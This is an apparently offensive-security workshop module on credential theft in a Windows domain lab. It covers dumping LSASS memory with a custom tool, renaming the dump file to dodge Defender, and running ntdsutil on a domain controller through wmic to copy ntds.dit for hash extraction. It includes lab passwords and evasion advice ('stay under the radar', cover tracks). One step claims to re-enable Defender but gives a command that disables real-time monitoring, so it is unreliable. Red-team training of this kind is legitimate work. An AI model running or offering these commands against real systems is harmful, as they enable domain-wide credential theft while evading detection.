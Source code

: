 # Advanced Credential Grabbing

Mimikatz is very burned, but you can still use its functionality on your attacker device where you don't have to worry about detections.  No reason the re-invent the wheel here, but custom tooling is required to get around the standard detections built in to most EDRS.

If you are looking to understand what part of various malware or attacker tools is being detected you can use defender check.

This tool will leverage the current database of defender and identify the area of a binary or file that is triggering a given alert.  This only works for static detections, not for heuristic or behavioral detections.

> **OPSEC NOTES**:
> - This can be ran remotely
> - You could have this feed out to a listenting IP/Port
> - Can be ran as an injected dll in another service.
> - the dump file itself is signatured by defender, much less the tools that generate it


## Custom LSASS Dump

> Turning defender off, can either be difficult, or not guarunteed to stay that way due to domain policies, or even other EDR implementations. So what to do?
> Even using AMSI bypasses can be concerning these days due to the frequency at which the signature are updated even for the bypasses. 
> More advanced actors are using custom tooling.  There are two considerations.  Executables can be executed in memory, but then the process is not directly tied to an executable. So you can inject into another process that is already running, which is really the way to go.
> Other options are to bring your own executable, or use signed executables already on the box to execute DLL files through sideloading to do your bidding.

Some examples of these techniques are what we will cover here and in the other adanced modules.

1. From the Lighteater (Attacker Box), RDP into the TWORIVERS (client) with the local administrator account.  TWORIVERS\Administrator:Summerishere@2023!
2. Ensure windows defender is turned back on. `Set-MpPreference -DisableRealtimeMonitoring 1`
2. Open an Administrative powershell terminal.
3. Change directory `cd c:\Users\Public\Desktop\LAB_FILES\assets`
4. Expand the archive for mimikatz again.
`expand-archive mimikatz_trunk.zip`
> Note: https://github.com/matterpreter/DefenderCheck
5. Unzip the custom-procdump folder.
`expand-archive .\custom-procdump.zip`
5. CD into the "custom-procdump" folder.
6. Execute the nimprocdump.exe program. 
```powershell
.\nimprocdump.exe
```
![Proc Dump Output](./nimprocdump.png)

> This will find the process with lsass, and dump it into a file.  Important not to add this kind of info into a command line while you have commandline process auditing on. Which is why you build the options into the executable, and then additional information like PIDs are logged as arguments, which can later be used for detections.

This is detected and the proc.dump file is deleted.  Oh no!
![Proc Dump Alert](./nimprocdump-alert.png)

> Notice it is not deleting the .exe and the alert is actually focused on that processes dump the proc.dump file.  So likely the alert is focused on the file itselt.

7. This time, lets simply rename the lsass.dump file.  `.\nimprocdump.exe; rename-item c:\proc.dump c:\not.dump`

> There are still alerts but the lsass.dump file is not deleted.



## Create Domain Save with 
https://www.microsoft.com/en-us/security/blog/2023/05/24/volt-typhoon-targets-us-critical-infrastructure-with-living-off-the-land-techniques/

If you then end up with domain creds, one next step can be to grab the has credentials from the entire domain of course! There are a number of ways that have been flagged to essentaill steal the ntds.dit file from the Domain Controller.

Notes: VSSADMIN gets caught because it's use is so commonly associated with the steps that happen before you are ransomed.  Other tools like ninja copy require extended interaction within a remote session of powershell and loading of an additional library, all super noisy.

> If you can't tell, I reall think using tools that already exist on the sytem, or are commonly used by admins helps stay under the radar, and it makes detections for automated tooling really difficult. One such way is to use the ntdsutil tool that is built into domain controllers to create backup media.  Further, using wmic is just really hard to catch.  This is being actively used in the volt typhoon campaigns.

1. Remote into the TWORIVERS (client ) 172.31.24.111 with the domain admin credentials: wheel\ralthor : JustAn0therG!ng3r
2. As this user, open a administrative command prompt. (Leave defender on.)
3. Run the following command to launch this remote process on the Domain Controller using an administrative command prompt. Not powershell, the escape characters are different.

```batch
wmic /node:tarvalaon.wheel.co /user:wheel\Administrator /password:12qwaszx!@QWASZX process call create "cmd.exe /c mkdir C:\Windows\temp"
wmic /node: /user:wheel\Administrator /password:12qwaszx!@QWASZX process call create "cmd.exe /c ntdsutil \"ac i ntds\" ifm \"create full c:\Windows\temp\pew\" q q"
```

4. From you here you would retieve the file and unpack it to dump all the users and associated hashes without making really loud dcsync requests.

5. You can use the impackt secrets dump to dump hashes out fo the ntds.dit file.
[Secrets Dump Walk Through](https://airman604.medium.com/dumping-active-directory-password-hashes-deb9468d1633#:~:text=Using%20the%20two%20saved%20files%20%28NTDS.dit%20and%20SYSTEM,domain%20controller%29%3A%20secretsdump.py%20-system%20%3Cpath_to_system_hive%3E%20-ntds%20%3Cpath_to_ntds.dit%3E%20LOCAL)


> From here you sould properly cover your tracks, but that is a different workshop.

